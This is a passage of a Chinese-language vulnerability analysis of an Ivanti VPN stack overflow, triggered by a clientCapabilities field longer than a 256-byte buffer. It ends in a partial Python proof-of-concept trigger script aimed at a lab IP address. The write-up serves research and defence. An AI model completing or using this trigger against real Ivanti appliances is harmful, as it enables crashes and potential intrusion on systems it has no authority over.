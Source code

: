   
发送完请求，此时 Ivanti已经发生崩溃  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWePRiaibpYMAqlwicC6XwsaW7DBtvicIDXOsdjKg6Sx6z4RrMW2HThwBHhrg/640?wx_fmt=png&from=appmsg "")  
  
### 3、漏洞原理  
  
从数据包可以看出漏洞发生在发送在客户端信息阶段，根据sinsinology  
文章可以得知漏洞是因为解析clientCapabilities  
字段的时候回一个拷贝的动作，而拷贝的大小是我们发送的clientCapabilities  
的大小，但是缓冲区的大小是确定的，因此产生了溢出。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeU11IA7hTU8dlnHIl1yX19vq6XbleakfLX2Fv55TyvOSjduDTkBCEng/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWe8EZjpGWhaluHV9JkvhRn7iayuSjNpoI8xSyjfYnBiacnekEP0CSOxryQ/640?wx_fmt=png&from=appmsg "")  
  
  
其中dest缓冲区的大小为256字节，因此我们clientCapabilities  
的大小超过256字节就会产生溢出。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWe1x6dOKgsBdSqCGXm7E8YEtJuU3kHeCNX8JDBbvgE99Mh4hLVK3XC0A/640?wx_fmt=png&from=appmsg "")  
  
  
下面我根据openconnect写了一个触发漏洞的脚本，漏洞分析和漏洞利用更加方便一些。  
```
import socket
import ssl
import struct

HOST = "192.168.137.105"
PORT = 443

VENDOR_TCG = 0x5597
IFT_VERSION_REQUEST = 1
VENDOR_JUNIPER = 0xa4c
IFT_CLIENT_AUTH_RESPONSE = 6


def hexdump(data, width=16):
    for i in range(0, len(data), width):
        chunk = data[i:i + width]
        hex_part = ' '.join(f'{b:02X}' for b in chunk)
        ascii_part = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chunk)
        print(f'{i:08X}  {hex_part:<48}  {ascii_part}')


def make_ift_hdr(vendor, package_type):
    hdr_array = [0] * 4
    hdr_array[0] = vendor
    hdr_array[1] = package_type
    hdr_array[2] = 0  # package length
    hdr_array[3] = 0  # ID
    return hdr_array


def make_package(hdr_array, package_length, ID, package_data):
    package = struct.pack('>I', hdr_array[0])
    package += struct.pack('>I', hdr_array[1])
    package += struct.pack('>I', package_length)
    package += struct.pack('>I', ID)
    package += package_data
    return package


def send_package(sock, package):
```
